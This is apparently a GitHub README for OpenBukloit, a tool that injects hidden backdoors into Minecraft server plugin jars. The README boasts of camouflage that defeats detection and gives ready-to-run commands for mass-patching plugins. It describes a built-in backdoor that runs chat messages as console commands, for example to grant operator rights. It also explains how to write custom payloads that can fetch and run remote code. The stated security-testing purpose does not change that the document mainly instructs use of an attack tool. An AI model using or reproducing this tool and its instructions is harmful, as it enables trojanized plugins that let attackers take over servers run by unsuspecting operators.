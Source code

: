 <div align="center"><h1>OpenBukloit - Minecraft plugin backdoor injector</h1></div>

<div align="center"><img alt="Logo" src="logo.png"/></div>

<div align="center">
    <a href="https://github.com/VoxelHax/OpenBukloit/issues"><img alt="Open issues" src="https://img.shields.io/github/issues-raw/VoxelHax/OpenBukloit"/></a>
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="GitHub downloads" src="https://img.shields.io/github/downloads/VoxelHax/OpenBukloit/total"></a>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/VoxelHax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
    <a href="https://discord.gg/xtaktPTzYp"><img alt="Discord" src="https://img.shields.io/discord/928214827095175199"></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-DOWNLOAD_LATEST_RELEASE_(CLICK)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**Languages: [English](README.md), [Русский](lang/README_RU.md), [Українська](lang/README_UA.md)**

**OpenBukloit** is modern and powerful universal backdoor injector compatible with all Bukkit/Spigot/Paper/etc plugins. Its feature is ability to integrate with absolutely any plugin without the need to modify backdoor every time. Moreover, it provides powerful camouflage engine, which makes nearly impossible to find it without sufficient knowledge or advanced automated tools. OpenBukloit was developed to test the security systems of Minecraft servers, VoxelHax team is not responsible for its misuse.

This is a continuation of **[Bukloit](https://github.com/Rikonardo/Bukloit)** project, taking into account all the problems of the previous project and a completely different approach to development.

## OpenBukloit features
- **Full support for Bukkit and it's forks on any Minecraft version.**
- **Custom backdoor support.**
- **Automatic JDK downloading, so you don't need to care about Java version compatibility.**
- **Powerful camouflage engine, which makes it harder to find backdoor in plugin.**

## Installation
In order to use OpenBukloit you must have any Java version installed (but not lower than 8). OpenBukloit jar can be downloaded from [releases tab](https://github.com/Voxelhax/OpenBukloit/releases/latest). OpenBukloit does not require any additional actions, just put jar file somewhere and use it from command line.

## Usage
To run OpenBukloit, open command prompt in the directory where OpenBukloit jar is located and type:

```sh
java -jar OpenBukloit.jar
```

After jar file name you can pass some arguments to configure injector:

| Short Argument | Long Argument | Description                                                                                                                                                                  | Type  |
|----------------|---------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------|
| -e             | --exploit     | Path to custom .java or compiled .class file, that will be used as backdoor.<br />**By default uses builtin backdoor.**                                                      | Value |
| -m             | --mode        | Mode. Can be single/multiple.<br />**Default: <ins>multiple</ins>.**<br />In multiple mode, modifies all files in the specified folder. In single - only the specified file. | Value |
| -i             | --input       | Path to input folder/file (mode dependent).<br />**Default: <ins>in</ins> (<ins>in.jar</ins> if mode is single).**                                                           | Value |
| -o             | --output      | Path to output folder/file (mode dependent).<br />**Default: <ins>out</ins> (<ins>out.jar</ins> if mode is single).**                                                        | Value |
| -r             | --replace     | Replace output file if it already exists.                                                                                                                                    | Flag  |

But these arguments are not enough to run OpenBukloit. You must also specify backdoor params. Because OpenBukloit supports injecting of custom backdoors, you must pass additional arguments that required by used backdoor.

## Builtin exploit

By default, OpenBukloit injects builtin backdoor. It is a simple backdoor that allows you to execute any commands as console by writing special keyword before command in chat.

Builtin backdoor params:

| Long Argument | Description                                       |
|---------------|---------------------------------------------------|
| --key         | Keyword, that triggers console command execution. |

Ingame usage for key set to "hackthisserver":

```
hackthisserver op MyName
```

This message sent to chat will be executed as console command and give op to MyName player.

**Here is some examples of using OpenBukloit with builtin backdoor:**

1. Patch all .jar files with the "#console" key from the "in" folder and save them into the "out" folder without replacement.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Patch all files with the "hacktheserver" key from the "in" folder and save them into the "out" folder with replacement.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Patch single file "PluginName.jar" with "#console" key and save it as "Output.jar" file with replacement.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

## Writing custom exploit

You can also write your own backdoor. It should be a class with `public static void inject(JavaPlugin args)` method (JavaPlugin is from Bukkit API).

Here is a simple example:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

`inject` method will be executed after plugin's `onEnable` method. You can do everything you want here, including downloading and running some arbitrary code from internet.

But you must know that there are some limitations:
- Currently, you can't use nested classes, there is must be only one class in exploit file.
- You shouldn't reference your exploit class inside it, like using it as method params, as a return value or as a field type.

You can take external params from command line, by using %placeholders%, thay will be replaced during injection:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

And then inject it with command:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Note, that we can pass our backdoor to OpenBukloit without compiling, and it will automatically compile it with Spigot API in compiletime classpool.